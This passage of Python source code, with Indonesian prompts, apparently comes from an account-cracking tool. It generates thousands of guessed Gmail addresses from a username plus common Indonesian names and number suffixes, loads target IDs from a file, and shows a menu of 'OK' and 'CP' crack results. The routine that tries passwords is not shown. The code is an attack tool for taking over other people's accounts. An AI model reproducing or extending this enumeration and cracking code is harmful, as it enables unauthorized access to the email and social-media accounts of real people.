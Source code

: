 	tengah = ['irawan','wirawan','wijaya','wijayanto','ramdani','ramadan','ramadhani','ramadhan','gunawan','pratama','peratama','purnama','gunawan','hermawan','hermansyah','hermanto','kurniawan','kurnia','purnomo','sutomo','supomo','suparman','suherman','darmawan','dermawan','nugraha','saputra','syahputra','setiawan','darman','nugroho','setyawan','ardiansyah','ardiansah','ardiana','firmansyah','firmansah','dirgantara','sinaga','nasution','salmanan','lesmana','saepuloh','ferdiansah','hidayat','saepudin','saripudin','maulana','supriadi','supardi','khan','rahayu','aprilia','apriliani','fitriani','damayanti','wulandari','pratiwi','anatasya','kartika','kartini','rahmawati','pertiwi','azizah','aisyah','fatimah','handayani','nurahma','nuraisyah','nuarazizah','nursakila','nurfatimah','adinda','risawati','sulastri','mulyani','mulyati','wahyuni','sumiati','rusmiati','yulianti','yuliani','julianti','yulianto','julianto','ananda','safira','aminah','hasanah','ferawati','sumarni','anggraena','anggraeni','maharani','salsabila','sabila','evve','lestari','hungkul','nurcahaya','nurjanah','nuraminah','fatmawati','sukaesih','septiani','ningsih','nengsih','yuningsih','yunengsih','suningsih,sunengsih','nursuci','khoerunisa','ekaputri']
	belakang = ['777','999','111','222','333','444','638','656','556','452','281','812','235','898','998','110','739','892','344','87','665','81','sumarna','dermawan','darmawan','dirgantara','wijayanto','wijayanti','01','02','03','04','05','06','07','08','09','10','11','12','13','14','15','16','17','18','19','20','21','22','23','24','25','26','27','28','29','30','31','32','34','35','36','38','39','40','41','42','42','43','44','50','45','46','47','48','49','51','231','241','772','829','610','64','628','528','422','241','321','537','771','883','836','929','737','123','288','913','891','88','66','77','66','55','991','728','923','112','372','882','9238','194','883','809','293','251','726','332','231','829','980','8247','3738','2894','118','119','621','535','567','765','776','236','266','115','825','653','712','210','019','738','538','729','753','436','82','83','766','667','554','445','133','1933','1982','2000','200238','7279','2838','638','9293','789','009','402','452','455','566','655',',223','332','331','313','62','63','64','65','66','67','68','gaming','123','321','332','033','721','768','988','998','901','425','719','223','7789','0018','335','827','811','880','092','064','862','6672','82','91','21','23','31','45','54','677','882','98','890','728','112','221','236','221','621','722','112','829','xd','ramdani','ramadani','maulana','aisyah','773','663','724','252','332','173','809','713','739','221','114','116','117','752','82','56','64','001','002','003','004','005','006','009''102','628','791','991','88','667','66','78','173','992','32','007','07','08','09','01','02','03','04','05','06','66','99','723','820','61','231','geulis','032','610','889','883','812','72','77','101','official','gaming','utama','123','1234','12345','123456','cakep','90','96','25']
	global ok , cc
	nama = input(f'{P}[{H}?{P}] Username : ')
	if ',' in str(nama):
		print(f' {P}└─{J} masukan nama, jangan kosong ')
		time.sleep(3);exit()
	doma = '@gmail.com'
	jumlah = '5000'
	for xyz in range(int(jumlah)):
		AA = nama
		BB = [f'{str(rc(tengah))}',f'{str(rr(0,31))}',f'{str(rc(belakang))}']
		CC = doma
		DD = f'{AA}{str(rc(BB))}{CC}'
		if DD in id:pass
		else:id.append(DD+'|'+nama)
		if len(dump)==999999:passwrd()
	setting()	
#-------------[ CRACK-FROM-FILE ]------------------#
def file():
	try:
		fileX = input (f'{P}[{H}•{P}] Input File Anda : ')
		for line in open(fileX, 'r').readlines():
			id.append(line.strip())
		setting()
	except IOError:
		exit(f" {P}└─{J} ID ERROR {H}%s {J}not found"%(fileX))
#-------- HASIL CRACK ---------#
def result():
	clear()
	loading()
	logo()
	print(f'{B}[{J}01{B}] {P}Hasil {h}OK{x} Anda ')
	print(f'{B}[{J}02{B}] {P}Hasil {k}CP{x} Anda ')
	kz = input(f' └── Pilih : ')
